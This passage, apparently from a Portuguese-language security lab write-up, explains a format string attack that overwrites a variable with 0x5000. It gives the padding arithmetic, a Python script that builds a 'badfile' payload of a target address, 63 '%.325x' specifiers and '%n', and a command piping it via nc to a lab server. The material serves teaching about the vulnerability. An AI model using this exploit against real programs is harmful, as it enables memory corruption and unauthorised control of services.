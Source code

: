 * Como o número **0x5000** em hexadecimal corresponde a **20480** em decimal, é necessário imprimir 20480 caracteres antes do especificador `%n`

* Tendo em conta que a *string* de formatação tem de conter 63 `%x` (para, conforme determinado inicialmente, retirar os elementos necessários da *stack* até chegar ao início da variável `buf`), é possível alterar o especificador `%x` para `%.325x`, obrigando a que cada valor hexadecimal impresso seja constituído por 325 caracteres, totalizando, assim, 20475 (63 * 325 = 20475) caracteres impressos

* São também impressos os primeiros 4 caracteres da *string* de formatação (correspondentes ao número do endereço de memória no qual se irá escrever), pelo que fica a faltar apenas 1 caracter para totalizar os 20480

* Então, basta acrescentar, por exemplo, um caracter "1" antes dos especificadores `%.325x`, tal como é feito no *script* seguinte

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to construct a string s with
#   63 of "%.325x", concatenated with a "%n"
s = "1" + "%.325x" * 63 + "%n"

# The line shows how to store the string s at offset 4
fmt  = (s).encode('latin-1')
content[4:] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

* De facto, ao correr `./build_script.py` e fazer `cat badfile | nc 10.9.0.5 9090`, verificamos que o valor da variável foi alterado de **0x11223344** para **0x5000** conforme pretendido, tal como comprova a imagem abaixo

